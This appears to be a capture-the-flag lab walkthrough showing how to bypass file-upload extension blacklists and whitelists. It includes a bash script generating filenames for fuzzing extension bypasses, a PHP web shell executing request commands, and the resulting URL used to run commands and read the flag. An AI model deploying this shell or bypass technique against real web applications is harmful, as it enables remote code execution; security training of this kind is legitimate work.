 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

In some cases whitelists may be used to prevent malicious threats for uploading unintended file formats.

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Lets capture the upload request and fuzz the extension like in the previous exercise.&#x20;

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets also add the following php code to ensure it's being executed:

```php
<?php echo "shell test";?>
```

This time, we'll create our own wordlist. We will adapt the bash script from HTB and add two more extensions ending up with a script like this:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Just paste it on your machine and press enter to execute it, and then copy the content to the Intruder's payload configuration and click `Start attack`.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see from the image above, the requests with a 230 length have the message "File successfully uploaded".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to know if the actual php code was executed. Hide all the columns besides the column "Payload", and copy all it's content to other file so we can have another wordlist.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to the main page and open "image" in a new tab.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

It looks we may have found a working payload. And don't need to fuzz it anymore. Now let's modify the POST request.

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it was uploaded! Now let's go the previous URL and modify it to `/shell.phar:.jpg?cmd=id`.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked! Now lets look for the flag.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like in the previous sections the flag is under the root directory.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And here it is, we found our flag!

